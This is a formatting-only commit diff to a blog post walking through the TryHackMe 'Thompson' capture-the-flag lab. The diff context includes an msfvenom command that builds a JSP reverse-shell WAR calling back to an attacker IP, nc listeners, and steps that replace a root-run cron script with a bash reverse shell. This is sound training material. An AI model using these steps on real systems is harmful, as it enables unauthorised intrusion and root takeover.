

Before and after one commit to wulfgarpro/wulfgar.pro, a Jekyll site: the page built from _posts/2020-09-22-tryhackme-thompson.md, in a window 1280 px wide and 1400 px high, scrolled down 1844 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Minor fixes to format.

````diff
--- a/_posts/2020-09-22-tryhackme-thompson.md
+++ b/_posts/2020-09-22-tryhackme-thompson.md
@@ -43,7 +45,7 @@ $ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.4.9.232 LPORT=4444 -f war > sh
 ```
 _(**NOTE:** You can list available payloads with `msfvenom --list payloads`; I use `grep` to filter the payloads on a needs basis.)_
 
-Deploy the generated "shell.war":
+Deploy the generated _shell.war_:
 
 ![tomcat-deploy](/images/posts/penlog_thompson_by_tryhackme/tomcat_deploy.png)
 
@@ -55,7 +57,7 @@ Start an `nc` lister on the port specified as _LPORT_ to the `msfvenom` command:
 $ nc -vnlp 4444
 ```
 
-Click the "/shell" link in the deployed applications list (as shown above)--the Tomcat server will execute the deployed JSP reverse shell code generated using `msfvenom`--to establish a low-privilege _user_ shell.
+Click the _/shell_ link in the deployed applications list (as shown above) -- the Tomcat server will execute the deployed JSP reverse shell code generated using `msfvenom` -- to establish a low-privilege _user_ shell.
 
 Upgrade the shell with a PTY:
 
@@ -67,27 +69,27 @@ $ fg
 $ export TERM=xterm && reset
 ```
 
-Get the user "flag.txt":
+Get the user _flag.txt_:
 
 ![nmap1](/images/posts/penlog_thompson_by_tryhackme/user_flag.png)
 
-Notice the "id.sh" file in the user home directory "/home/jack"; this script is owned by _jack_ but is world writable - that is, the _tomcat_ user can change the script:
+Notice the _id.sh_ file in the user home directory _/home/jack_; this script is owned by _jack_ but is world writable - that is, the _tomcat_ user can change the script:
 
 ![id-script-perms](/images/posts/penlog_thompson_by_tryhackme/id_script_perms.png)
 
-This script, when executed, writes out the _uid_ of the executing user to the file "test.txt" in the same home directory:
+This script, when executed, writes out the _uid_ of the executing user to the file _test.txt_ in the same home directory:
 
 ![id-script-out](/images/posts/penlog_thompson_by_tryhackme/id_script_out.png)
 
-Notice the current "test.txt" reads "root" indicating the last user to execute the "id.sh" script was _root_.
+Notice the current _test.txt_ reads `id` output for _root_; indicating the last user to execute the _id.sh_ script was _root_.
 
-The system "/etc/crontab" shows evidence of the "id.sh" script running every minute as user _root_:
+The system _/etc/crontab_ shows evidence of the _id.sh_ script running every minute as user _root_:
 
 ![crontab](/images/posts/penlog_thompson_by_tryhackme/crontab.png)
 
 ## Root Shell
 
-Replace the "id.sh" script with a bash reverse shell connection to attacking machine:
+Replace the _id.sh_ script with a bash reverse shell connection to attacking machine:
 
 ![id-script-new](/images/posts/penlog_thompson_by_tryhackme/id_script_new.png)
 
@@ -97,6 +99,6 @@ Start `nc` listener on the attacking machine, specifying expected reverse shell
 $ nc -vnlp 4446
 ```
 
-Wait for `cron` to execute "id.sh" as root, establishing a reverse shell as _root_; get the root "flag.txt":
+Wait for `cron` to execute _id.sh_ as root, establishing a reverse shell as _root_; get the root _flag.txt_:
 
 ![root-shell](/images/posts/penlog_thompson_by_tryhackme/root_shell.png)
````
Also changed, not shown: other parts of _posts/2020-09-22-tryhackme-thompson.md (+6 -4 lines).
